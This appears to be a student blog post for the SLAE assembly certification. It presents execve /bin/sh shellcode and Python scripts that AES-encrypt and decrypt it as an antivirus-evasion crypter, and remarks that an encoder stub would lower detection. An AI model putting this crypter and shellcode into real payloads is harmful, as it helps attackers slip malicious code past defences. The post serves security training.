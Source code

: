 ```yaml
---
layout: post
title:  "Slae32 Assignment #7"
date:   2017-12-08 00:10:45
categories: jekyll update
---
```


# SLAE Assignment #7

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online‐courses/securitytube-linux-assembly-expert/

Student ID: SLAE-935

## Assignment

* Create a custom crypter like the one shown in the "crypters" video
* Free to use any existing encryption schema
* Can use any programming language


## Encryption Algorithm

For this task the AES algorithm has been picked up.
As input it's used the execve-stack.nasm shellcode.
Original shellcode that executes /bin/sh:

```
; Filename: execve-nasm.nasm
; Author:  SLAE-935
;
; Purpose: execute /bin/sh

global _start			

section .text

_start:

	xor eax, eax
	push eax

	; PUSH //bin/sh (8 bytes) 
	push 0x68732f2f
	push 0x6e69622f

	mov ebx, esp

	push eax
	mov edx, esp

	push ebx
	mov ecx, esp

	mov al, 11
	int 0x80
```

Converted to opcodes:

```
$ ./compile-execve-stack.sh 
######### NASM #########
[+] Assembling with Nasm ... 
[+] Done!
[+] Linking ...
[+] Done!
[+] Objdump ...
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

The final shellcode to use it's the following (we don't add any encoder stub, since the task is focused on encryption, but adding it at this point would help to decrease the detection rate):

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

## Algorithm Explanation

AES is based on a design principle known as a substitution-permutation network, a combination of both substitution and permutation. It operates on blocks of fixed size (128 bits) and the key can be of 128, 192 or 256 bits.
AES operates on a 4 × 4 column-major order matrix of bytes, called state, if the number of blocks in input gets bigger than 32, an additional column is added to the state, up to 256 bits. In practice, the number of bits of the input block is divided by 32, and the quotient specifies the number of columns.

### Encryption
There is an initial step:

* AddRoundKey – every byte of the table is combined with the session key. 

Then many rounds are expected, and in every round, but the latest, the following steps are repeated

* SubBytes: non linear substitution of all bytes, replaced with a specific table
* ShiftRows: bytes are shifted of a certain number of positions depending on the line they belong to.
* MixColumns: a column per time, the bytes are combined with a linear operation.
* AddRoundKey: every byte of the table is combined with the session key.

The number of processing rounds/cycles of the previous steps is 10, with the last step that skips the MixColumns phase.

### Decryption

The decryption phase is not equal to the encryption one, since the steps are reversed. Anyway it's possible to define an inverse cipher which is equivalent to the steps used during the encryption, by using the inverse function of each step and a different session key.

## Encrypter

Here follows the aes encrypter which takes as input the shellcode and the encryption key, it gives as output the encrypted shellcode:

```python
#!/usr/bin/python
# Python AES Crypter
# Author: SLAE-935
#
# Usage: python Enctypt.py 16bytesKey
# Ex: python Encrypt.py AABBCCDDAABBCCDD

import base64, re
from Crypto.Cipher import AES
from Crypto import Random

def encrypt(key):
    shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" # Execve-stack shellcode
    shellcode = shellcode + '\0' * (32 - len(shellcode) % 32)
    iv = Random.new().read(AES.block_size)
    cipher = AES.new(key, AES.MODE_CBC, iv)
    return base64.b64encode(iv + cipher.encrypt(shellcode))

if __name__ == "__main__":
    key = raw_input("Please enter encryption Key - 16 bytes \n")
    while (len(key) != 16 ):
        key = raw_input("Please enter encryption Key - 16 bytes \n")
    print encrypt(key)

```

## Decrypter

Here follows the AES decrypter which takes as input the encryption key, it gives as output the original shellcode if the provided key is the one correct one:

```python
#!/usr/bin/python
# Python AES Decrypt
# Author: SLAE-935
#
# Usage: python Decrypt.py 16bytesKey
# Ex: python Decrypt.py AABBCCDDAABBCCDD

import base64, re
from Crypto.Cipher import AES
from Crypto import Random

# key: ABCDEFGHABCDEFGH
def decrypt(key):
    encoded_shellcode = "ScueqVee2XjND7PIhHeUdM4VX1C7+6QMXct+dvZkRqWR2eNJFK70kwpc5bowocy4" # Execve-stack shellcode
    enc = base64.b64decode(encoded_shellcode)
    iv = enc[:16]
    cipher = AES.new(key, AES.MODE_CBC, iv)
    dec_ascii = re.sub('\0*$','', cipher.decrypt(enc[16:]))
    dec_hex = ''
    for x in bytearray(dec_ascii):
        dec_hex += '\\x%02x' % x
    return dec_hex 

if __name__ == "__main__":
    key = raw_input("Please enter encryption Key - 16 bytes \n")
    while (len(key) != 16 ):
        key = raw_input("Please enter encryption Key - 16 bytes \n")
    print decrypt(key)
```

## Proof of execution

Let's encrypt the shellcode with they key ABCDEFGHABCDEFGH:

```
$ python Encrypt.py 
Please enter encryption Key - 16 bytes 
ABCDEFGHABCDEFGH
ScueqVee2XjND7PIhHeUdM4VX1C7+6QMXct+dvZkRqWR2eNJFK70kwpc5bowocy4
```

Let's decrypt the shellcode with they key ABCDEFGHABCDEFGH:

```
$ python Decrypt.py 
Please enter encryption Key - 16 bytes 
ABCDEFGHABCDEFGH
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

As visible we have back the original shellcode.